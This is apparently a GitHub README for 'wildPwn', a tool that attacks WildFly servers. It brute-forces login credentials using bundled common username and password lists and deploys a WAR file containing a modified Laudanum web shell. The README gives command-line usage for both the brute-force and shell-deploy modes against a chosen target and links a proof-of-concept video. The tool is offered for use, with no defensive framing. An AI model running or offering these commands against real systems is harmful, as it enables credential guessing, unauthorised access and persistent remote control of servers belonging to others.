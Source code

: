 # wildPwn - WildFly Exploitation Tool
Its a simple tool for WildFly. Tool can be used to brute force or shell deploy. *wildPwn.war* contains modified Laudanum Shell. *userList.txt* contains common usernames and *passList.txt* contains common passwords.

# Usage
Bruteforce
```
python wildPwn.py -m brute --target <TARGET> -user <USERNAME LIST> -pass <PASSWORD LIST> 
```

Deploy
```
python wildPwn.py -m deploy --target <TARGET> --port <PORT> -u <USERNAME> -p <PASSWORD>
```

# Video
[![PoC Video](https://i.ytimg.com/vi/kTsPwA7QhLU/maxresdefault.jpg)](https://www.youtube.com/watch?v=kTsPwA7QhLU)
